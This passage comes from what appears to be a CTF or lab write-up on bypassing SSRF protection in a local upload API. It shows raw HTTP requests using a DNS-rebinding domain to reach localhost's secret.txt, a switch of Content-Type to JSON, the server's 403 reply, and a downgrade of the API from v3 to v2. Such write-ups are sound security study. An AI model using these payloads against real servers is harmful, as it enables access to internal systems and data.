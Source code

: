 So here what we need is to make multiple tries in the request until we success, But unfortunately the  still couldn't bypass SSRF protection

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

#### Crafting the Exploit

Despite the rebind working, the SSRF protection still held strong. I thought to confuse the server by changing the content type of the request, which sometimes tricks servers.

I used `Content Type Converter`  Burp Suite Extension to do so&#x20;

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

**Original Request:**

```http
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
file_url=http://7f000001.d83ad3ce.rbndr.us/secret.txt
```

**Modified Request with JSON Content-Type:**

```http
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json;charset=UTF-8
Content-Length: 59
{"file_url":"http://7f000001.d83ad3ce.rbndr.us/secret.txt"}
```

Even with the content type change and DNS rebinding, success was still elusive, This approach yielded a promising message: "requests to localhost not allowed."

```http
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:16:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 34
Connection: close

requests to localhost not allowed
```

I then decided to try another common technique: downgrading API versions from v3 to v2 and fortunately i found indicator to Vulnerable SSRF Parameter.

The Server returned A response with Status Code of `404 NOT FOUND`  cause actually there is no `secret.txt`   on the local host&#x20;
